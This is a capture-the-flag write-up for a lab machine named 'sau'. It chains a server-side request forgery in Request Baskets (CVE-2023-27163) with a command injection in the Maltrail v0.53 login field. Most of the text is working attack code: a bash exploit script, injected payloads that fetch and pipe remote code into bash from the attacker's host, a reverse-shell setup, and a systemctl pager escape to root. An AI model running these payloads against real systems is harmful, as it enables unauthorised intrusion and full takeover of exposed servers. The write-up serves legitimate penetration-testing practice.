

# sau

| Hostname   | Difficulty |
| ---        | ---        |
| sau | Easy           |

Machine IP: 10.10.11.224 :

```bash
TARGET=10.10.11.224       # sau IP address
```

## Initial Reconnaissance

### Ports and services

```shell
nmap $TARGET -p-     
```

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 11:12 CEST
Nmap scan report for 10.10.11.224
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

We can note that ports 80 and 8338 are **filtered** (not accessible from our network side).

Let's enumerate deeper :

```shell
nmap $TARGET -p 55555 -sC -sV -A 
```

```text
Nmap scan report for 10.129.13.25
Host is up (0.019s latency).

PORT      STATE SERVICE VERSION
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 12 Jul 2023 16:46:31 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 12 Jul 2023 16:46:06 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 12 Jul 2023 16:46:06 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/12%Time=64AED8CD%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2012\x20Jul\x20
SF:2023\x2016:46:06\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2012\x20Jul\x20
SF:2023\x2016:46:06\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Wed,\x2012\x20Jul\x202023\x2016:46:31\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (94%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.4 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

This is a web application on this port 5555 :



## Initial access

### Exploitation

After some research, this application "Request Baskets" seems vulnerable to a server-side request forgery: https://vuldb.com/?id.224708, [CVE-2023-27163](https://vuldb.com/?source_cve.224708) 

An exploit is also available, we can give a quick test :

```shell
wget https://github.com/entr0pie/CVE-2023-27163/raw/main/CVE-2023-27163.py
# CVE-2023-27163.py <target URL> -t <listener>
python3 CVE-2023-27163.py http://10.129.13.25:55555/ -t http://10.10.14.164:8080/
```

With a listener :

```shell
nc -nvlp 8080
```

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.129.13.25.
Ncat: Connection from 10.129.13.25:52740.
GET / HTTP/1.1
Host: 10.10.14.164:8080
User-Agent: python-requests/2.31.0
Accept: */*
Accept-Encoding: gzip, deflate
Authorization: 013L6eu_I-NPXEbT78oVXCRBuib-WF6FdZIVXjkCpHJP
X-Do-Not-Forward: 1
```

This simple test is proving the exploit works.

This script will not fit our needs, so let's craft a script that fit to our application, so that we can read the output on port 80 locally. We can try to use this exploit as a proxy to reach the port 80.


```bash
BASKET_NAME=johndoe$(mktemp -u "XXXXX")
FOWARD_URL=http://127.0.0.1:80

echo "Basket: $BASKET_NAME"

Payload='{"forward_url": "'$FOWARD_URL'", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
# Create the basket (POST request)
Result=$(curl -s http://$TARGET:55555/api/baskets/$BASKET_NAME -H 'Content-Type: application/json' -d "$Payload")

echo "Result: $Result"
Token=$(echo $Result | cut -d ':' -f2| cut -d '"' -f2)
echo "Token: $Token"

# Trigger the exploit
echo "Fire \!"
curl -s http://$TARGET:55555/$BASKET_NAME -H 'Content-Type: application/json' -d '{"Authorization": "'$Token'"}'

# delete basket
curl -s -X DELETE http://$TARGET:55555/api/baskets/$BASKET_NAME -H 'Content-Type: application/json' -d '{"Authorization": "'$Token'"}'

```

Interesting result :

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
        <title>Maltrail</title>
        <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
        <link rel="stylesheet" type="text/css" href="css/main.css">
        <link rel="stylesheet" type="text/css" href="css/media.css">
        <script type="text/javascript" src="js/errorhandler.js"></script>
        <script type="text/javascript" src="js/thirdparty.min.js"></script>
        <script type="text/javascript" src="js/papaparse.min.js"></script>
    </head>
    <body>
        <div id="header_container" class="header noselect">
            <div id="logo_container">
                <span id="logo">altrail</span>
            </div>
            <div id="calendar_container">
                <center><span id="spanToggleHeatmap" style="cursor: pointer"><a class="header-a header-period" id="period_label"></a></span></center>
            </div>
            <ul id="link_container">
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/blob/master/README.md" id="documentation_link" target="_blank">Documentation</a></li>
                <li class="header-li link-splitter">|</li>
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/wiki" id="wiki_link" target="_blank">Wiki</a></li>
                <li class="header-li link-splitter">|</li>
<!--                <li class="header-li"><a class="header-a" href="https://docs.google.com/spreadsheets/d/1lJfIa1jPZ-Vue5QkQACLaAijBNjgRYluPCghCVBMtHI/edit" id="collaboration_link" target="_blank">Collaboration</a></li>
                <li class="header-li link-splitter">|</li>-->
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/issues/" id="issues_link" target="_blank">Issues</a></li>
                <li class="header-li link-splitter hidden" id="login_splitter">|</li>
                <li class="header-li"><a class="header-a hidden" id="login_link">Log In</a></li>
                <li class="header-li"></li>
            </ul>
        </div>

        <div id="heatmap_container" class="container hidden" style="text-align: center">
            <div>
                <button id="heatmap-previous" class="ui-button ui-widget ui-state-default ui-corner-all ui-button-text-only" type="button" role="button">
                    <span class="ui-icon ui-icon-carat-1-w"></span>
                </button>
                <button id="heatmap-next" class="ui-button ui-widget ui-state-default ui-corner-all ui-button-text-only" type="button" role="button">
                    <span class="ui-icon ui-icon-carat-1-e"></span>
                </button>
            </div>

            <div style="display: inline-block; float: top; vertical-align: top; margin-top: 5px">
                <div id="cal-heatmap" style="display: inline-block"></div>
            </div>
        </div>

        <div id="main_container" class="container hidden">
            <div id="status_container" style="width: 100%; text-align: center">
                <div>
                    <ul style="list-style: outside none none; overflow: hidden; font-family: sans-serif; padding: 0px; display: inline-block; white-space: nowrap">
                        <li id="btnDrawThreats" class="status-button noselect" style="background: rgb(31, 119, 180); background: radial-gradient(rgb(174, 199, 232) 0%, rgb(31, 119, 180) 100%) repeat scroll 0 0 rgba(0, 0, 0, 0)" title="Threats">
                            <h4 id="threats_count">-</h4>
                            <span class="dynamicsparkline" id="threats_sparkline"></span>
                            <h6>Threats</h6>
                        </li>
                        <li id="btnDrawEvents" class="status-button noselect" style="background: rgb(255, 127, 14); background: radial-gradient(rgb(255, 187, 120) 0%, rgb(255, 127, 14) 100%) repeat scroll 0 0 rgba(0, 0, 0, 0)" title="Events">
                            <h4 id="events_count">-</h4>
                            <span class="dynamicsparkline" id="events_sparkline"></span>
                            <h6>Events</h6>
                        </li>
                        <li id="btnDrawSeverity" class="status-button noselect" style="background: rgb(44, 160, 44); background: radial-gradient(rgb(152, 223, 138) 0%, rgb(44, 160, 44) 100%) repeat scroll 0 0 rgba(0, 0, 0, 0)" title="Severity">
                            <h4 id="severity_count">-</h4>
                            <span class="dynamicsparkline" id="severity_sparkline"></span>
                            <h6>Severity</h6>
                        </li>
                        <li id="btnDrawSources" class="status-button noselect" style="background:rgb(214, 39, 40); background: radial-gradient(rgb(255, 152, 150) 0%, rgb(214, 39, 40) 100%) repeat scroll 0 0 rgba(0, 0, 0, 0)" title="Sources">
                            <h4 id="sources_count">-</h4>
                            <span class="dynamicsparkline" id="sources_sparkline"></span>
                            <h6>Sources</h6>
                        </li>
                        <li id="btnDrawTrails" class="status-button noselect" style="background:rgb(148, 103, 189); background: radial-gradient(rgb(197, 176, 213) 0%, rgb(148, 103, 189) 100%) repeat scroll 0 0 rgba(0, 0, 0, 0)" title="Trails">
                            <h4 id="trails_count">-</h4>
                            <span class="dynamicsparkline" id="trails_sparkline"></span>
                            <h6>Trails</h6>
                        </li>
                    </ul>
                </div>
                <div>
                    <!--<label>title</label>-->
                    
                </div>
                <div id="chart_area">
                </div>
            </div>

            <table width="100%" border="1" cellpadding="2" cellspacing="0" class="display compact" id="details">
            </table>
        </div>

        <noscript>
            <div id="noscript">
                Javascript is disabled in your browser. You must have Javascript enabled to utilize the functionality of this page.
            </div>
        </noscript>

        <div id="bottom_blank"></div>
        <div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>

        <ul class="custom-menu">
            <li data-action="hide_threat">Hide threat</li>
            <li data-action="report_false_positive">Report false positive</li>
        </ul>
        <script defer type="text/javascript" src="js/main.js"></script>
    </body>
</html>
```

This is Maltrail v0.53 (https://github.com/stamparm/maltrail/)

There is the same page on port 8338

This is a demo available: https://maltraildemo.github.io/

This version of maltrail seems vulnerable to a remote command injection :
https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

So let's updgrade our script to chain with this exploit and get a reverse shell :

```bash
BASKET_NAME=johndoe$(mktemp -u "XXXXX")
FOWARD_URL=http://127.0.0.1:80

echo "Basket: $BASKET_NAME"

Payload='{"forward_url": "'$FOWARD_URL'", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
# Create the basket (POST request)
Result=$(curl -s http://$TARGET:55555/api/baskets/$BASKET_NAME -H 'Content-Type: application/json' -d "$Payload")

echo "Result: $Result"
Token=$(echo $Result | cut -d ':' -f2| cut -d '"' -f2)
echo "Token: $Token"

# Trigger the exploit on request-baskets, and access Maltrail to trigger RCE
echo "Fire \!"

# test the presence of tools
curl -s http://$TARGET:55555/$BASKET_NAME/login --data 'username=;`wget http://10.10.14.23:9090/$(which bash)`'

curl -s http://$TARGET:55555/$BASKET_NAME/login --data 'username=;`wget http://10.10.14.23:9090/$(which nc)`'

curl -s http://$TARGET:55555/$BASKET_NAME/login --data 'username=;`wget http://10.10.14.23:9090/$(which python3)`'

curl -s http://$TARGET:55555/$BASKET_NAME/login --data 'username=;`curl http://10.10.14.23:9090/xploit|bash`'

# delete basket
curl -s -X DELETE http://$TARGET:55555/api/baskets/$BASKET_NAME -H 'Content-Type: application/json' -d '{"Authorization": "'$Token'"}'
```

The reverse shell :

```shell
nc -nvlp 8080
```

```text
Ncat: Connection from 10.10.11.224.
Ncat: Connection from 10.10.11.224:39702.
$ bash
bash
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ 
```

## Post-Exploitation

### Host Reconnaissance

Now let's upgrade the shell to get full TTYs :

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

Let's check sudo rights :

```shell
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

/etc/systemd/system/trail.service :

```shell
cat /etc/systemd/system/trail.service
```

```text
[Unit]
Description=Maltrail. Server of malicious traffic detection system
Documentation=https://github.com/stamparm/maltrail#readme
Documentation=https://github.com/stamparm/maltrail/wiki
Requires=network.target
Before=maltrail-sensor.service
After=network-online.target

[Service]
User=puma
Group=puma
WorkingDirectory=/opt/maltrail
ExecStart=/usr/bin/python3 server.py
Restart=on-failure
KillMode=mixed

[Install]
WantedBy=multi-user.target
```

The application is located in /opt/maltrail :

```shell
ls -l 
total 188
-rw-rw-r-- 1 root root  6418 Jan 31 18:18 CHANGELOG
-rw-rw-r-- 1 root root   711 Jan 31 18:18 CITATION.cff
-rw-rw-r-- 1 root root  1131 Jan 31 18:18 LICENSE
-rw-rw-r-- 1 root root 42844 Jan 31 18:18 README.md
drwxrwxr-x 2 root root  4096 Jun 19 09:41 core
drwxrwxr-x 2 root root  4096 Jun 19 09:41 docker
-rw-r--r-- 1 root root  7205 Apr 15 09:05 h
drwxrwxr-x 5 root root  4096 Jun 19 09:41 html
-rw-rw-r-- 1 root root   437 Jan 31 18:18 maltrail-sensor.service
-rw-rw-r-- 1 root root   430 Jan 31 18:18 maltrail-server.service
-rw-rw-r-- 1 root root  5810 Jan 31 18:18 maltrail.conf
drwxrwxr-x 2 root root  4096 Jun 19 09:41 misc
drwxrwxr-x 2 root root  4096 Jun 19 09:41 plugins
-rw-rw-r-- 1 root root     9 Jan 31 18:18 requirements.txt
-rwxrwxr-x 1 root root 63782 Jan 31 18:18 sensor.py
-rwxrwxr-x 1 root root  5101 Jan 31 18:18 server.py
drwxrwxr-x 4 root root  4096 Jun 19 09:41 thirdparty
drwxrwxr-x 5 root root  4096 Jun 19 09:41 trails
```
### Privilege Escalation

Since we can sudo to systemctl, we can fiond en exploit :

https://gtfobins.github.io/gtfobins/systemctl/#sudo

doing :

```shell
sudo /usr/bin/systemctl status trail.service
```

This will open a vim like viewer. We can exploit with : `!sh`

```
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

